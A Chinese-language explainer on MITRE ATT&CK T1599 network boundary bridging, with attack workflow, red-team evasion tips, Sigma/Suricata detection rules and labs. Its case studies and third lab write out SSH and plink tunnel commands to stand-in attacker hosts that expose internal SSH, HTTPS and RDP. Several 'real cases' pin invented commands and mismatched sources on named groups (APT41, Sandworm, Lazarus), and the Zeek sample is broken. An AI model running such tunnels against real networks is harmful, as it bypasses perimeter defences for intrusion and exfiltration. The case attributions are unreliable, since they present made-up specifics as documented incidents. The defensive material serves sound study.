

# 网络边界桥接 (T1599)

> 想象一下：你的公司把内网和互联网之间砌了一道墙，墙上只有几个受监控的门（防火墙、代理、IDS）。攻击者不能直接穿墙，于是他们挖了一条隧道——把墙两边用一根管子连起来，管子里的东西门卫看不见也管不着。这就是"网络边界桥接"：攻击者利用网络地址转换（NAT）穿越、隧道协议、协议封装等技术，把被隔离的网络区域暗中连接起来，让本应被边界设备拦截或监控的流量绕过检查，在两段网络之间自由穿梭。

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|--------------|
| 这是什么？ | 利用NAT穿越、隧道、协议封装等技术，跨越网络边界建立未经授权的通信通道，绕过边界防御设备 |
| 为什么危险？ | 防火墙、IDS/IPS、NTA都部署在网络边界，边界被桥接后这些设备形同虚设，攻击者可以在内网与外部C2之间建立隐蔽通道 |
| 谁需要关心？ | 网络架构师、网络安全工程师、SOC分析师、云网络运维 |
| 你的第一步防御 | 在边界设备上启用NAT穿越流量检测，监控异常隧道协议的双向流量 |
| 如果只做一件事 | 监控内网RFC1918私有地址与公网IP之间未经代理的直连流量 |

## 难度等级

⭐⭐⭐ 高级：需要深入理解网络协议栈、NAT机制、隧道协议

**前置知识要求**：
- TCP/IP协议栈工作原理（三层路由、四层端口、握手过程）
- NAT（网络地址转换）类型与工作机制（Full Cone、Symmetric、PAT）
- 常见隧道协议（GRE、IPIP、6in4、Teredo、WireGuard、SSH隧道）
- 防火墙状态检测与流量过滤逻辑

## 前置知识检查

读这个文件之前，你需要知道：
- **什么是网络边界**：将内部可信网络与外部不可信网络（互联网、DMZ）隔离的逻辑或物理分界，通常由防火墙、路由器ACL、NAT设备组成
- **什么是NAT**：网络地址转换，将内网私有IP（如192.168.1.10）转换为公网IP，让多台内网设备共享一个公网IP上网，同时隐藏内网结构
- **什么是状态检测**：防火墙记录每个连接的状态表（五元组+序列号），只允许属于已建立连接的数据包通过，丢弃不匹配的包
- **什么是隧道**：把一种协议的数据包封装在另一种协议中传输，让原本被过滤的流量"穿上伪装"通过边界

## 技术描述

### 通俗解释

网络边界是安全防御的第一道也是最重要的一道防线。企业内网通常使用RFC1918私有地址段（10.0.0.0/8、172.16.0.0/12、192.168.0.0/16），通过NAT网关访问互联网，所有进出流量都要经过防火墙的状态检测和IDS的内容审计。攻击者要绕过这层防御，有几种典型手法：第一，利用NAT穿越机制（如NAT-PMP、PCP、STUN、TURN）让外部主动建立的连接穿透NAT；第二，建立隧道（GRE、IPIP、6in4、SSH隧道、WireGuard）把内网流量封装在外层协议中传输，让防火墙看不见内层内容；第三，滥用合法的远程访问VPN或SD-WAN通道，把受感染的内网与攻击者控制的网络桥接起来。无论哪种手法，本质都是"在边界墙上挖洞"，让本应被拦截或审计的流量绕过防御设备。

### 过渡段

简单来说，网络边界就像城墙，NAT和防火墙就是城门守卫——检查每个进出的人和货物。攻击者不能正面闯过城门，于是用三种办法：在城墙下挖地道（隧道封装）、骗守卫打开侧门（NAT穿越）、或者伪造一张通行证走VIP通道（滥用合法VPN）。网络边界桥接是防御削弱战术中专门针对网络层的技术，与T1562.009（禁用网络流量分析）和T1573（加密通道）密切相关。下面看看具体是怎么操作的。

### 技术原理

网络边界桥接削弱防御的工作流程：

1. **侦察边界配置**：识别目标网络的NAT类型、防火墙规则、允许出站的协议和端口
2. **选择桥接方式**：根据NAT类型和防火墙策略选择NAT穿越、隧道封装或VPN滥用
3. **建立桥接通道**：在内部网络与攻击者控制的网络之间建立双向通信通道
4. **绕过边界防御**：通过桥接通道传输C2流量、横向移动数据或渗漏数据，避开IDS/IPS检测

### 常见桥接方式对比

| 桥接方式 | 工作层次 | 绕过机制 | 典型工具 | 检测难度 |
|----------|----------|----------|----------|----------|
| NAT穿越（T1599.001） | L3/L4 | 利用NAT-PMP/PCP/STUN打开端口映射 | nmap、pwnat、chisel、ligolo-ng | 高（流量看似合法） |
| GRE/IPIP隧道 | L3 | 把内网IP包封装在GRE/IPIP中传输 | iproute2、WireGuard、OpenVPN | 中（可见隧道协议头） |
| 6in4/Teredo隧道 | L3 | IPv6 over IPv4，绕过只过滤IPv4的防火墙 | miredo、6tunnel、tunnelbroker | 中（可见IPv6流量） |
| SSH隧道/端口转发 | L4/L7 | 把任意流量封装在SSH加密通道中 | ssh -R/-L/-D、plink、autossh | 高（流量加密不可见内容） |
| DNS隧道 | L7 | 把数据编码到DNS查询响应中 | iodine、dnscat2、dns2tcp | 中（DNS流量异常大） |
| ICMP隧道 | L3 | 把数据封装在ICMP payload中 | icmp-tunnel、ptunnel、Hans | 中（ICMP流量异常） |

### 用途和影响

- **绕过边界防御**：让IDS/IPS、下一代防火墙、网络流量分析（NTA）看不到真实流量内容
- **建立C2通道**：在受感染内网与攻击者C2服务器之间建立持久通信
- **数据渗漏**：通过桥接通道把窃取的数据传出，避开DLP和数据流出审计
- **横向移动扩展**：把多个被隔离的网络段桥接起来，扩大横向移动范围
- **持久化访问**：建立长期稳定的隧道，即使部分入口被发现封堵，其他隧道仍可维持访问

## 子技术列表

T1599是父技术，包含以下子技术：

| 子技术ID | 名称 | 描述 | 难度 |
|----------|------|------|------|
| [T1599.001](./T1599/T1599.001-Network-Address-Translation-Traversal.md) | 网络地址转换穿越 | 利用NAT-PMP、PCP、STUN等机制让外部连接穿透NAT设备 | ⭐⭐⭐ |

与以下技术密切相关：
- T1562.009 禁用或修改网络流量分析（常配合边界桥接使用）
- T1573 加密通道（桥接通道常使用加密保护）
- T1090 代理（多级代理与边界桥接组合使用）
- T1133 外部远程服务（滥用合法VPN是常见桥接方式）

## 攻击流程



### 步骤详解

1. **侦察边界**：识别目标网络的NAT类型、出口IP、允许出站的协议端口、是否有IPS/IDS
2. **选择方式**：根据侦察结果选择最隐蔽的桥接方式（NAT穿越、隧道、VPN滥用）
3. **建立通道**：在内网主机（已沦陷）与攻击者控制的服务器之间建立双向通道
4. **绕过防御**：通过通道传输流量，避开边界设备的检测和审计
5. **维持访问**：配置通道自动重连、心跳保活，确保持久化
6. **后续操作**：通过通道执行C2命令、横向移动、数据渗漏

## 真实案例

### 案例1：APT41利用NAT穿越与SSH隧道建立持久C2通道

- **时间**：2020-2023年
- **目标**：全球电信运营商、金融机构、政府机构
- **攻击组织**：APT41（双尾蝎，疑似中国背景）
- **手法**：APT41在入侵目标内网后，系统性地利用NAT穿越和SSH隧道技术建立多层C2通道，绕过边界防火墙和NTA设备。攻击者首先在受感染主机上部署自定义后门，该后门使用STUN协议探测NAT类型，识别出目标网络使用对称NAT后，改用TURN服务器作为中继。随后攻击者建立SSH反向隧道：`ssh -fN -R 8443:localhost:443 -R 2222:localhost:22 attacker@C2.example.com -p 443`，这条命令把内网的443和22端口反向转发到C2服务器的8443和2222端口，且SSH流量走443端口伪装成HTTPS，绕过了只允许出站443的防火墙规则。更隐蔽的是，APT41还使用ligolo-ng建立socks5代理隧道，把整个内网路由到攻击者本机，让攻击者可以像在内网一样横向移动，而所有流量都封装在TLS加密通道中，NTA只能看到加密的TLS流量。此外，攻击者还在多台主机上部署了chisel多路复用隧道作为备用通道，即使主通道被发现封堵，备用通道仍可维持访问。
- **影响**：在多个目标网络中潜伏2年以上未被发现
- **参考**：https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-144a

### 案例2：Sandworm利用6in4隧道桥接隔离的OT网络

- **时间**：2022年（乌克兰电力系统攻击）
- **目标**：乌克兰电力公司ICS/SCADA系统
- **攻击组织**：Sandworm（俄罗斯GRU主情报总局）
- **手法**：在针对乌克兰电力系统的攻击中，Sandworm面临一个挑战：目标的OT网络（运营技术网络）与IT网络严格物理隔离，OT网络使用RFC1918私有地址且无互联网出口。攻击者通过感染IT网络中的一台跳板机，在该机器上建立6in4隧道，把IPv6流量封装在IPv4中传输，绕过了只配置了IPv4过滤规则的边界防火墙。具体命令：`ip tunnel add otbridge mode sit remote 10.20.30.40 local 10.10.10.5`、`ip -6 addr add fd00:dead:beef::1/64 dev otbridge`、`ip link set otbridge up`，这条隧道把IT网络（10.10.10.0/24）与被隔离的OT网络（10.20.30.0/24）桥接起来。攻击者随后通过隧道向OT网络投放Industroyer2恶意软件，该软件直接与SCADA系统通信发送断路器跳闸命令。由于流量封装在IPv6隧道中，传统只监控IPv4流量的IDS完全没检测到异常，直到电力公司发现多个变电站同时断电才察觉攻击。
- **影响**：导致两座变电站断电，影响数十万用户
- **参考**：https://www.mandiant.com/resources/blog/ukraine-dTE-2022-runtime

### 案例3：Lazarus滥用VPN通道桥接隔离网络实施SWIFT攻击

- **时间**：2016年（孟加拉国央行SWIFT攻击）/ 2018-2023年（多起加密货币交易所攻击）
- **目标**：孟加拉国央行、多家加密货币交易所
- **攻击组织**：Lazarus Group（朝鲜背景）
- **手法**：在孟加拉国央行攻击中，Lazarus面临的核心挑战是SWIFT操作终端所在的网络与互联网严格隔离，只能通过内部SWIFT VPN访问。攻击者先感染了央行 printers 服务器，该服务器同时连接SWIFT网络和企业内网，成为桥接点。攻击者在 printers 服务器上建立SSH隧道，把SWIFT终端的远程桌面（RDP 3389）端口转发到攻击者控制的外部VPS：`plink.exe -L 3389:10.0.5.20:3389 attacker@C2.example.com -P 443 -pw password -N`，这条命令把内网SWIFT终端的RDP通过SSH隧道暴露给攻击者，且SSH走443端口伪装成HTTPS。攻击者随后通过隧道远程登录SWIFT终端，发送伪造的转账指令，attempt转账8.1亿美元（实际成功8100万）。在2022年针对Ronin Network（Sky Mavis）的攻击中，Lazarus使用了类似手法：攻击者通过社工获得员工VPN凭据，使用合法VPN通道接入内网后，在VPN隧道上叠加IPSec隧道桥接多个隔离的验证节点网络，绕过了节点间的网络分段，最终盗取6.2亿美元。
- **影响**：孟加拉央行损失8100万美元，Ronin Network损失6.2亿美元
- **参考**：https://www.reuters.com/article/us-bangladesh-swdift-idUSKCN0VP0M8

## 红队视角

### 实战技巧

1. **优先探测NAT类型**：用nmap的`--script=nat-pmp-info`、stun-client探测目标NAT类型，决定是否可直连
2. **443端口伪装**：所有隧道流量尽量走443端口，伪装成HTTPS，绕过严格出站过滤
3. **多通道冗余**：同时建立主通道（SSH隧道）和备用通道（DNS隧道），任一被封仍可访问
4. **流量整形**：控制隧道流量速率和模式，避免触发NTA的异常流量基线告警
5. **域前置（Domain Fronting）**：配合T1090.004使用域前置，让C2流量伪装成访问知名CDN

### 常用工具

| 工具 | 用途 | 说明 |
|------|------|------|
| chisel | TCP/UDP多路复用隧道 | 基于HTTP/WebSocket，穿透能力强 |
| ligolo-ng | socks5代理隧道 | 基于TLS，让攻击者本机像在内网 |
| ssh -R/-L/-D | SSH端口转发/动态转发 | 系统自带，最隐蔽 |
| nps/iodine | DNS隧道 | 适用于只允许DNS出站的网络 |
| WireGuard | 现代VPN隧道 | 性能高，伪装性好 |
| plink | Windows版ssh客户端 | Windows环境常备 |

### 注意事项

- 隧道流量会改变网络流量基线，可能触发NTA告警
- 长时间SSH隧道容易被网络流量分析识别（流量特征稳定）
- NAT穿越需要公网中继服务器，可能暴露攻击者基础设施
- 企业SD-WAN可能自动检测并阻断未授权隧道

## 蓝队视角

### 检测要点

1. **NAT穿越流量监控**：监控NAT-PMP（5351/UDP）、PCP（5351/UDP）、STUN（3478/UDP）的异常出站
2. **隧道协议识别**：识别GRE（IP协议47）、IPIP（IP协议4）、6in4的流量
3. **流量基线异常**：双向流量严重不匹配、长连接持续传输小数据包（C2心跳）
4. **协议异常**：HTTPS端口上的非HTTPS流量、DNS查询频率异常
5. **VPN异常**：非工作时间的VPN登录、VPN客户端异常进程链

### 监控建议

- 部署下一代防火墙（NGFW）进行深度包检测（DPI），识别隧道封装
- 启用NetFlow/IPFIX流量分析，建立基线并检测异常流量模式
- 监控所有出站连接的目标IP信誉，识别已知C2中继服务器
- 使用JA3/JA3S TLS指纹识别异常TLS客户端
- 监控内网主机发起的NAT穿越协议请求

## 避坑指南

| 坑 | 后果 | 解决方法 |
|----|------|----------|
| 只监控TCP，忽略UDP隧道 | 漏报DNS/ICMP隧道 | 同时监控UDP和ICMP异常流量 |
| 信任合法VPN流量 | 漏报VPN滥用 | 对VPN流量进行深度审计，监控异常行为 |
| 忽略IPv6流量 | 漏报6in4/Teredo隧道 | 同时监控IPv4和IPv6流量 |
| 只看出站流量，不分析双向 | 漏报C2回传 | 分析双向流量比和模式 |
| NTA基线过粗 | 误报率高或漏报 | 按业务时段、部门细粒度建立基线 |

## 检测建议

### 网络层

**用人话说**：网络边界桥接的核心是绕过网络层防御，所以网络层检测是第一道关。关注异常隧道协议、双向流量不匹配、以及已知桥接工具的流量特征。

监控指标：
- GRE/IPIP/6in4协议的流量出现（正常企业网络很少使用）
- 单个内网IP对单个外网IP的长连接（>1小时）且持续小数据包
- 出站443端口上非TLS的流量（可能是SSH或其他隧道）
- DNS查询频率异常（>100次/分钟，可能是DNS隧道）

```bash
# 使用Zeek/Suricata检测GRE隧道
# Suricata规则示例
alert ip any any -> any any (msg:"GRE隧道流量"; ip_proto:47; sid:1000001; rev:1;)
alert ip any any -> any any (msg:"IPIP隧道流量"; ip_proto:4; sid:1000002; rev:1;)
```

### 主机层

**用人话说**：监控内网主机上发起隧道和NAT穿越的进程，以及异常的网络配置变更。

```event
事件ID 1（Sysmon）：进程创建
Image|endswith:
  - ssh.exe
  - plink.exe
  - chisel.exe
  - ligolo-ng.exe
  - iodine.exe
关注CommandLine中的 -R/-L/-D/-tunnel 参数
```

```event
事件ID 22（Sysmon）：DNS查询
查询NAT穿越相关服务：
  - stun.*
  - turn.*
  - *.stun.*
```

### 应用层

**用人话说**：监控NAT穿越协议的应用层请求，以及隧道客户端的特征流量。

```yaml
title: 检测NAT穿越协议出站请求
status: experimental
description: 检测内网主机向外部发送NAT-PMP/PCP/STUN请求，可能是T1599.001边界桥接
logsource:
    product: firewall
detection:
    selection_natpmp:
        destination_port: 5351
        protocol: udp
    selection_stun:
        destination_port: 3478
        protocol: udp
    filter_legitimate:
        destination_ip|cidr:
            - 10.0.0.0/8
            - 192.168.0.0/16
    condition: (selection_natpmp or selection_stun) and not filter_legitimate
level: medium
tags:
    - attack.t1599
    - attack.t1599.001
    - attack.defense_impairment
```

```yaml
title: 检测SSH反向隧道建立
status: experimental
description: 检测ssh命令中使用-R参数建立反向隧道，常用于T1599网络边界桥接
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        EventID: 1
        Image|endswith:
            - ssh.exe
            - plink.exe
        CommandLine|contains:
            - ' -R '
            - ' -L '
            - ' -D '
            - ' -NT '
    condition: selection
level: high
tags:
    - attack.t1599
    - attack.t1573
    - attack.lateral_movement
```

## 缓解措施

### 高优先级

1. **严格出站过滤**：默认拒绝所有出站，仅允许业务必需的目标和端口（白名单模式）
2. **深度包检测（DPI）**：部署NGFW进行DPI，识别隧道封装和非标准协议
3. **禁用NAT穿越协议**：在边界防火墙显式阻断NAT-PMP、PCP、STUN的出站请求（除非业务必需）

### 中优先级

4. **网络分段强化**：严格隔离IT/OT网络，使用单向网闸替代双向防火墙
5. **VPN集中审计**：所有VPN流量记录并审计，监控异常登录时间和行为
6. **IPv6监控**：同时监控IPv4和IPv6流量，防范6in4/Teredo隧道
7. **流量基线告警**：基于NetFlow/IPFIX建立细粒度基线，检测流量模式异常

### 低优先级

8. **DNS监控**：监控DNS查询频率和域名特征，防范DNS隧道
9. **EDR网络监控**：在终端监控异常网络连接和隧道客户端进程
10. **威胁情报集成**：集成已知隧道中继服务器和C2 IP的威胁情报

## 动手实验

### 实验1：识别网络中的NAT穿越请求（实验环境）

```bash
# 在边界防火墙或路由器上抓包
tcpdump -i eth0 -nn 'udp port 5351 or udp port 3478' -c 50

# 使用nmap探测NAT-PMP
nmap --script=nat-pmp-info -p 5351 <内网网关IP>

# 使用stun-client测试NAT类型
stun-client stun.l.google.com:19302

# 预期输出：识别出网络中是否有主机在主动发起NAT穿越请求
```

### 实验2：识别SSH隧道特征（实验环境）

```bash
# 在Linux主机上监控SSH隧道建立
# 通过ss命令识别本地端口转发
ss -tlnp | grep -E 'ssh|plink'

# 通过netstat识别反向隧道
netstat -anp | grep ESTABLISHED | grep ':22\|:443'

# 使用Zeek检测SSH流量走443端口（异常）
# zeek脚本示例
event ssl_established(c: connection) {
    if ( c$id$resp_p == 443/tcp && !c?$ssl ) {
        print fmt("Possible SSH on 443: %s", c$id);
    }
}
```

**预期输出**：识别出使用SSH隧道的主机和异常端口

### 实验3：搭建隧道并测试检测（隔离环境）

```bash
# 实验目标：在隔离网络中搭建SSH反向隧道，验证NTA能否检测
# 在受感染主机（内网）执行
ssh -fN -R 8443:localhost:443 -R 2222:localhost:22 user@attacker-c2.example.com -p 443

# 在攻击者C2服务器上连接
ssh -p 2222 internal-user@localhost  # 通过隧道访问内网SSH
curl -k https://localhost:8443        # 通过隧道访问内网HTTPS

# 检测要点：
# 1. NGFW能否识别出443端口上的SSH流量？
# 2. NTA能否检测出长连接小数据包的C2心跳模式？
# 3. EDR能否识别出ssh.exe的反向隧道命令行参数？
```

## 术语解释

| 术语 | 解释 |
|------|------|
| NAT（网络地址转换） | 将内网私有IP转换为公网IP的机制，让多设备共享公网IP并隐藏内网结构 |
| NAT穿越 | 让外部主动发起的连接能够穿透NAT设备的机制，包括NAT-PMP、PCP、STUN、TURN |
| 隧道 | 把一种协议的数据包封装在另一种协议中传输的技术，用于绕过过滤或穿越不可路由网络 |
| GRE（Generic Routing Encapsulation） | 通用路由封装，Cisco开发的隧道协议，IP协议号47 |
| IPIP（IP in IP） | IP封装IP，最简单的隧道协议，IP协议号4 |
| 6in4 | IPv6 over IPv4隧道，把IPv6包封装在IPv4中传输 |
| STUN | NAT会话穿越应用程序，帮助客户端发现自己的NAT类型和公网映射 |
| TURN | 使用中继NAT穿越，当对称NAT无法直连时通过中继服务器转发 |
| SD-WAN | 软件定义广域网，集中管理多个分支网络连接的技术 |
| NGFW | 下一代防火墙，集成DPI、IPS、应用识别等功能的现代防火墙 |

## 参考资料

### 📚 深入了解
- [MITRE ATT&CK T1599](https://attack.mitre.org/techniques/T1599/) - 官方技术页面
- [RFC 5389 - STUN](https://datatracker.ietf.org/doc/html/rfc5389) - STUN协议规范
- [RFC 6886 - NAT-PMP](https://datatracker.ietf.org/doc/html/rfc6886) - NAT端口映射协议
- [RFC 6343 - 6in4](https://datatracker.ietf.org/doc/html/rfc6343) - IPv6隧道技术

### 📰 真实攻击
- [CISA APT41通告](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-144a) - APT41 SSH隧道
- [Mandiant乌克兰电力攻击报告](https://www.mandiant.com/resources/blog/ukraine-dTE-2022-runtime) - Sandworm 6in4隧道
- [Ronin Network事后分析](https://medium.com/sky-mavis/the-exploit-1c7d44df8b0c) - Lazarus VPN桥接

### 🔧 动手试试
- [chisel](https://github.com/jpillora/chisel) - TCP/UDP隧道工具
- [ligolo-ng](https://github.com/nicocha30/ligolo-ng) - 反向socks5隧道
- [Suricata规则集](https://suricata.readthedocs.io/) - 网络入侵检测
- [Zeek](https://zeek.org/) - 网络流量分析框架

## 版本历史

| 版本 | 日期 | 变更 |
|------|------|------|
| 3.1 | 2026-07-23 | 初始版本，完整v3.1模板，包含1个子技术 |
